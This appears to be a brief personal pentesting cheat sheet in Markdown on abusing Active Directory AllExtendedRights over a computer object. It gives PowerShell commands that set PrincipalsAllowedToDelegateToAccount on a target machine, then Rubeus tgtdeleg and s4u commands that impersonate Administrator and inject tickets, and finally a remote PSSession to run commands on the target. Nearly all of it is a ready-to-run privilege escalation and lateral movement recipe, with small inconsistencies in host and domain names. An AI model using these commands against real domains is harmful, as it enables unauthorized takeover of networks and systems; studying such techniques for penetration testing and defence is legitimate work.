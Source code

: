 # Exploit AllExtendedRights

## User -(AllExtendedRights)->  Machine2Machine

when user have some AllExtendedRights right to some machine (targetPC).

Require Owned One machine, add machine to target machine.

add PrincipalsAllowedToDelegateToAccount right.


### Using AllExtendedRights add target PC

```powershell
PS C:\mane> . .\Import-ActiveDirectory.ps1
PS C:\mane> Import-ActiveDirectory 
PS C:\mane> set-adcomputer targetPC -PrincipalsAllowedToDelegateToAccount (get-adcomputer sourcePC)
```

### Exploit

```powershell
PS C:\mane> .\Rubeus.exe tgtdeleg /nowrap 

PS C:\mane> .\Rubeus.exe s4u /user:sourcrPC$ /ticket:xxxxxx /impersonateuser:Administrator /msdsspn:cifs/targetPC$.CORE.CYBER.LOCAL /altservice:termsrv,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt /nowrap 

PS C:\mane> $s = New-PSSession -ComputerName "targetPC.manesec.com"
PS C:\mane> Invoke-Command -Session $s -ScriptBlock { whoami }

```


